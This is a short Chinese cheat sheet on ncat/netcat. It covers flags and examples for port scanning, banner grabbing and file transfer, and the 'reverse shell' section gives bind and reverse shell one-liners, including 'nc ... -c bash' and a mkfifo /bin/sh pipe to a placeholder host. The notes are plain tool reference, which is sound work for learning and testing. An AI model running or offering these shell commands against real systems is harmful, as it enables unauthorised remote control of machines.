 # ncat

下载地址：<https://nmap.org/download.html>

!!! abstract
    ncat属于nmap的组件，相比于nc(netcat)，提供`--allow`指定允许连接的机器，`--ssl`进行数据加密。

## 参数介绍

- -v列出执行过程详细信息
- -n不进行dns解析
- -z只ping，不进行io
- -l开启监听
- -p指定端口
- -q seconds输入结束x秒后退出

!!! example
    - 端口扫描：`ncat -nvz x.x.x.x 1-100`，默认tcp，如果扫描udp，需添加-u
    - 获取服务banner：`nc -nv x.x.x.x 110`
    - 传输文本信息：server`nc -l -p 1234`, client`nc -nv x.x.x.x 1234`，可相互传输。通过管道输出：`ls -l | nc -nv x.x.x.x 1234`。接收数据重定向：`nc -l -p 1234 > xxx.txt`。
    - 文件传输
        - 正向：server`nc -l -p 1234 > xxx.txt`接收文件, client`nc -nv x.x.x.x 1234 < xxx.txt`
        - 反向：server`nc -q 1 -lp 1234 < xxx.txt`发送文件, client`nc -nv x.x.x.x 1234 > xxx.txt`。打包传输目录：server`tar cvf - xxx/ | nv -lp 1234 -q 1`, client`nc -nv x.x.x.x 1234 | tar xvf -`
    - 反弹shell
        - 正向：server`nc -lp 1234 -c bash`被执行命令，client`nc x.x.x.x 1234`执行命令。
        - 反向：server`nv -lp 53`执行命令，client`nc -nv x.x.x.x 53 -c bash`被执行命令。
        - server`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l x.x.x.x 1234 > /tmp/f`被执行命令, client`nc x.x.x.x 1234`执行命令

!!! example "典型应用: `nc -lvv 8887`"


!!! quote "参考链接"
    <https://blog.csdn.net/fageweiketang/article/details/82833193>
